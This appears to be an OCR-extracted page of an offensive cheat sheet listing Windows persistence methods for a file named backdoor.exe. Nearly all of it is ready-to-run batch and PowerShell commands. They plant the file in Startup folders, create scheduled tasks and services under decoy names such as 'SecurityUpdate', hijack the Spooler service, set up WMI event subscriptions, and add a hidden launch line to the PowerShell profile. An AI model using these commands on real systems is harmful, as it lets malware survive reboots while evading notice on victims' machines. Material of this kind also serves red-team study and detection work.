 ### 📂 Startup Folders
```batch
# User startup folder
copy backdoor.exe "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\"

# All users startup folder  
copy backdoor.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\"
```

### ⏰ Scheduled Tasks
```batch
# Create scheduled task
schtasks /create /tn "SecurityUpdate" /tr "C:\temp\backdoor.exe" /sc onlogon /ru SYSTEM

# Run every 5 minutes
schtasks /create /tn "SystemCheck" /tr "C:\temp\backdoor.exe" /sc minute /mo 5
```

</div>

<div>

## 🛠️ Service-Based Persistence

### 🔧 Windows Services
```batch
# Create new service
sc create "SecurityService" binpath= "C:\temp\backdoor.exe" start= auto DisplayName= "Security Update Service"

# Start the service
sc start "SecurityService"

# Modify existing service
sc config "Spooler" binpath= "C:\temp\backdoor.exe"
```

### 📊 WMI Event Persistence
```powershell
# WMI Event Filter
$Filter = Set-WmiInstance -Class __EventFilter -Arguments @{Name="SecurityFilter";EventNameSpace="root\cimv2";QueryLanguage="WQL";Query="SELECT * FROM Win32_LogonSession WHERE LogonType=2"}

# WMI Event Consumer
$Consumer = Set-WmiInstance -Class CommandLineEventConsumer -Arguments @{Name="SecurityConsumer";CommandLineTemplate="C:\temp\backdoor.exe"}

# Bind Filter to Consumer
Set-WmiInstance -Class __FilterToConsumerBinding -Arguments @{Filter=$Filter;Consumer=$Consumer}
```

### 💻 PowerShell Profile
```powershell
# Add to PowerShell profile
echo 'Start-Process "C:\temp\backdoor.exe" -WindowStyle Hidden' >> $PROFILE
```
